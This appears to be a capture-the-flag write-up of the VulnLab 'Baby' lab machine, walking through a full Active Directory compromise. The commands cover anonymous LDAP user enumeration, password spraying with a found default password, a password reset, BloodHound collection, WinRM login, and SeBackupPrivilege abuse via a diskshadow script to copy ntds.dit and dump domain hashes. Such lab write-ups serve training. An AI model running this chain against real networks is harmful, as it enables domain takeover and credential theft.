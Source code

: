 ```yaml
---
layout: post
title: VulnLab - Baby
date: 15-04-2025
categories: [Machines]
tags: [ldap, anonymous, SeBackupPrivilege, smbpasswd]
image: "https://images-ext-1.discordapp.net/external/iTsNgpEcu1U88J1FvpyBi4VwhZZRBo0W6Rd5ARdznbE/https/assets.vulnlab.com/baby_slide.png?format=webp&quality=lossless"
---
```


![image.png](attachment:8b12474b-0c0d-42a6-bc13-c9268b7a718e:image.png)

<aside>
💡

10.10.116.106

</aside>

## Scanning

```bash
➜  Baby nmap -Pn -T4 -sC -sV -p- 10.10.116.106 -oN reports/all_tcp.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 03:14 EAT
Nmap scan report for 10.10.116.106 (10.10.116.106)
Host is up (0.19s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-13 00:24:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-04-13T00:25:46+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2025-04-11T23:48:27
|_Not valid after:  2025-10-11T23:48:27
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   DNS_Tree_Name: baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-13T00:25:06+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
60933/tcp open  msrpc         Microsoft Windows RPC
60948/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-13T00:25:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 670.17 seconds

```

## Enumeration

### LDAP

**Anonymous Access**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl"
```

**Users**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "sAMAccountName:" | cut -d' ' -f2 | tee loots/users.txt
```

![image.png](attachment:a03294c9-05f1-41a8-8020-c8038e84c4f4:image.png)

Descriptions

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "description:"
```

![image.png](attachment:018b74bd-511a-4fd8-8ec7-4f1f4d8095e8:image.png)

### SMB

```bash
nxc smb 10.10.116.106 -u loots/users.txt -p 'BabyStart123!' --continue-on-success
```

![image.png](attachment:8128a076-a6bb-4f80-9bb2-dc3ad0369069:image.png)

Password Change

```bash
smbpasswd -r 10.10.116.106 -U Caroline.Robinson
```

![image.png](attachment:05b5e0ca-390a-4177-93b8-e35d16df897c:image.png)

![image.png](attachment:db4dad91-4b41-4c20-9be5-ddcb4e2aac1d:image.png)

```bash
nxc smb 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!' --users
```

![image.png](attachment:25f57ada-baf4-4c58-971b-ceec561bab1b:image.png)

### Bloodhound

```bash
bloodhound-python -d baby.vl  -c all -u 'Caroline.Robinson' -p 'NewSecurePass123!'  -ns 10.10.116.106 --zip
```

![image.png](attachment:abb5435f-cbb9-4545-9e89-de1e97c36b6b:image.png)

First Degree Group Membership

![image.png](attachment:d0bf5e4e-f85b-4572-bf11-ea02f49caf53:image.png)

## Initial Access

```bash
nxc winrm 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image.png](attachment:6d9b5578-ff7b-4256-bc6e-5cba314f6c2a:image.png)

```bash
evil-winrm -i 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image.png](attachment:285aca5c-0905-44ce-a5f5-41b3c7d8c40a:image.png)

## PrivEsc

![image.png](attachment:f467d9ad-d930-45d5-8ce4-c89e693b6d2a:image.png)

vss.dsh

```bash
set context persistent nowriters
set metadata c:\programdata\cyb4x.cab
set verbose on
add volume c: alias cyb4x
create
expose %cyb4x% z:
```

![image.png](attachment:b667af4c-76d1-4791-ba3a-1f07c1236c9e:image.png)

```bash
diskshadow /s vss.dsh
```

![image.png](attachment:9bae947d-2427-40a8-9a2d-257f5a30472c:image.png)

Copying

```bash
robocopy /b z:\windows\ntds . ntds.dit
```

![image.png](attachment:8cc23693-5ecd-4051-83ed-689ac6d3bbb1:image.png)

also

```bash
reg.exe save hklm\system system
```

download

![image.png](attachment:cf5692c0-d2bc-4af1-9f01-152eb717568a:image.png)

Dump secrets

```bash
secretsdump.py -system system -ntds ntds.dit local
```

![image.png](attachment:e5d49be1-1fef-495e-9b82-7569e4ed18e7:image.png)